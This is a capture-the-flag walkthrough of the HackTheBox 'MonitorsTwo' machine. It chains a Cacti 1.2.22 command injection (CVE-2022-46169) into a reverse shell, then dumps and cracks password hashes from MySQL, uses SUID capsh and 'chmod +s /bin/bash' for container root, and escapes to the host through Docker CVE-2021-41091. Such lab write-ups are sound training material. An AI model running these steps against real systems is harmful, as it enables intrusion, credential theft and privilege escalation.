

# MonitorsTwo

## Enumeration:

Start off with an nmap scan:

```vim
nmap -sV -sC -Pn -v <IP_ADDR>
```

```vim
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looking at the web app, We see a login page for Cacti (a Network Graphing solution) and it leaks the that it is version 1.2.22.
This version is vulnerable to CVE-2022-46169, and there are exploit scripts available such as this: https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22/blob/main/CVE-2022-46169.py

## Exploit:

We're going to look a little deeper into the exploit to understand how it works. The exploit calls for `/remote_agent.php?action=polldata&poller_id=1&host_id={n}&local_data_ids[]={n2}` where `{n}` is a number between 1-5 and `{n2}` is a number between 1-10. It also adds an extra header `X-Forwarded-For: 127.0.0.1` which is implying that this request is sent from localhost. When you find the correct `host_id` and `local_data_ids[]`, you get back a response that looks like this:



Once the bruteforce is done, The script exploits a command injection vulnerability in the `poller_id` parameter, successfully sending a reverse shell payload.

When you get on the machine, you can see its a docker container (existence of `/.dockerenv`) and we see a `/entrypoint.sh` as well. Looking into `entrypoint.sh`, we see the following:

```vim
cat /entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

This file leaks the credentials for the MySQL database on the machine and lets us execute SQL queries. I have used the following command to get credentials from the `user_auth` table:
```vim
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select username,password from user_auth"
username      password
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC                                                                     guest   43e9a4ab75570f5b                                                                                                                 marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

Marcus's password can be cracked and is `funkymonkey`. You can try to SSH into the machine with `ssh marcus@<IP_ADDR>`

User Flag is in `/home/marcus/user.txt`


## Privilege Escalation:

Looking really closely at `linpeas.sh` output, you come across some mail file on the machine:

```vim
marcus@monitorstwo:~$ cat /var/mail/marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

This mail gives us 3 CVEs to work with for privilege escalation. The first aren't too important, but the last one is the one which has the most potential. There were a couple POCs released for the particular vulnerability after the box was released (like this, https://github.com/UncleJ4ck/CVE-2021-41091) but I wanted to understand how this worked.  I used the following as reference for this: https://www.rapid7.com/db/vulnerabilities/amazon-linux-ami-2-cve-2021-41091/

The above entry talks about how if a container had an executable file with SetUID, it could be executed by an unprivileged user, due to collision between permissions on the host machine and docker container.

To perform this, we will go back to the container that we just escaped from to try and get a root shell on it. Luckily we have a `capsh` SUID executable with which we can use [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/#suid) to exploit and get a root shell. Once we get a root shell, we can run `chmod +s /bin/bash`  to make `bash` a SetUID executable. 

Now we have to find the subdirectory in which the Docker container's content is, which can be done with a tool like [CDK](https://github.com/cdk-team/CDK) or using a command like `findmnt`. 

```vim
marcus@monitorstwo:~$ findmnt
TARGET                                SOURCE      FSTYPE      OPTIONS
/                                     /dev/sda2   ext4        rw,relatime
├─/sys                                sysfs       sysfs       rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/security              securityfs  securityfs  rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/cgroup                    tmpfs       tmpfs       ro,nosuid,nodev,noexec,mode=755
│ │ ├─/sys/fs/cgroup/unified          cgroup2     cgroup2     rw,nosuid,nodev,noexec,relatime,nsdelegate
│ │ ├─/sys/fs/cgroup/systemd          cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,xattr,name=systemd
│ │ ├─/sys/fs/cgroup/cpu,cpuacct      cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,cpu,cpuacct
│ │ ├─/sys/fs/cgroup/rdma             cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,rdma
│ │ ├─/sys/fs/cgroup/freezer          cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,freezer
│ │ ├─/sys/fs/cgroup/cpuset           cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,cpuset
│ │ ├─/sys/fs/cgroup/devices          cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,devices
│ │ ├─/sys/fs/cgroup/hugetlb          cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,hugetlb
│ │ ├─/sys/fs/cgroup/perf_event       cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,perf_event
│ │ ├─/sys/fs/cgroup/net_cls,net_prio cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,net_cls,net_prio
│ │ ├─/sys/fs/cgroup/blkio            cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,blkio
│ │ ├─/sys/fs/cgroup/memory           cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,memory
│ │ └─/sys/fs/cgroup/pids             cgroup      cgroup      rw,nosuid,nodev,noexec,relatime,pids
│ ├─/sys/fs/pstore                    pstore      pstore      rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/bpf                       none        bpf         rw,nosuid,nodev,noexec,relatime,mode=700
│ ├─/sys/kernel/debug                 debugfs     debugfs     rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/tracing               tracefs     tracefs     rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/fuse/connections          fusectl     fusectl     rw,nosuid,nodev,noexec,relatime
│ └─/sys/kernel/config                configfs    configfs    rw,nosuid,nodev,noexec,relatime
├─/proc                               proc        proc        rw,nosuid,nodev,noexec,relatime
│ └─/proc/sys/fs/binfmt_misc          systemd-1   autofs      rw,relatime,fd=28,pgrp=1,timeout=0,minproto=5,maxproto=5,direct,pipe_ino=16157
│   └─/proc/sys/fs/binfmt_misc        binfmt_misc binfmt_misc rw,nosuid,nodev,noexec,relatime
├─/dev                                udev        devtmpfs    rw,nosuid,noexec,relatime,size=1966928k,nr_inodes=491732,mode=755
│ ├─/dev/pts                          devpts      devpts      rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000
│ ├─/dev/shm                          tmpfs       tmpfs       rw,nosuid,nodev
│ ├─/dev/hugepages                    hugetlbfs   hugetlbfs   rw,relatime,pagesize=2M
│ └─/dev/mqueue                       mqueue      mqueue      rw,nosuid,nodev,noexec,relatime
├─/run                                tmpfs       tmpfs       rw,nosuid,nodev,noexec,relatime,size=402608k,mode=755
│ ├─/run/lock                         tmpfs       tmpfs       rw,nosuid,nodev,noexec,relatime,size=5120k
│ ├─/run/docker/netns/4987dee457c0    nsfs[net:[4026532599]]
│ │                                               nsfs        rw
│ ├─/run/user/1000                    tmpfs       tmpfs       rw,nosuid,nodev,relatime,size=402608k,mode=700,uid=1000,gid=1000
│ └─/run/docker/netns/84a518491621    nsfs[net:[4026532660]]
│                                                 nsfs        rw
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUTHXKVYS4MQMJ3NOB:/var/lib/docker/overlay2/l/3JPYTR54WWK2EX6DJ7
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:/var/lib/docker/overlay2/l/CXAW6LQU6QOKNSSNUR
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
```

There are 2 overlay2 subdirectories, either of which can contain the SUID `bash` executable (for me, it was `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged`). Go to the `bin` subdirectory and execute the SUID `bash` with `./bash -p` (You can also execute it with the full path, DO NOT execute it like `bash -p` as it will execute the `bash` executable in your PATH which does NOT have SUID permission)

Root flag can be found in `/root/root.txt`
